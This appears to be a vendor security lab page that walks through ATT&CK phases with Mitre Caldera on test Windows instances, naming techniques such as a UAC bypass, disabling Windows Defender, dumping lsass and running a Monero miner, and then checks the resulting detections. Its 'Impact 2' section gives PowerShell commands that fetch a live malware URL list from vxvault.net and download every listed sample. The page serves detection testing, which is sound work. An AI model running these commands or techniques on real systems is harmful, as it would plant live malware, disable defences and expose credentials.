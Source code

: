 ```yaml
---
title: "Windows"
chapter: false
weight: 42
pre: "<b>4.2 </b>"
---
```

## Windows - Detection Mode
---

<b>Before you start this lab, make sure the C1WS Policy attached to the Windows Instance is the "demo > visionone > detection mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we know the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="ECAPmLFwiXY" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "UAC bypass registry (T1548.002) - Set a registry key to allow UAC bypass". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="o-hCzQjhNLs" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Disable Windows Defender All (T1562.001) - Disable Windows Defender All".

{{< youtube id="w5pnVRvGS6k" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Leverage Procdump for lsass memory (T1003.001) - Dump lsass for later use with mimikatz". You may find sensitive information with this technique.

{{< youtube id="syO6uPBEhQc" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="ReflY0x4k5A" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other custom tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="X2zpomhJNLo" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="LDqfBhn0DyQ" >}}

---
#### Impact 2
Using Mitre Caldera, execute the following Manual Commands.

        New-Item -Path c:\tmp -ItemType Directory;
        Invoke-WebRequest http://vxvault.net/URL_List.php -OutFile c:\tmp\urls.txt;
        Set-Location -Path c:\tmp;
        foreach($line in Get-Content c:\tmp\urls.txt) {Invoke-WebRequest -Uri $line -OutFile $(Split-Path -Path $line -Leaf)}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.

{{< youtube id="A-mIm0YG-OM" >}}

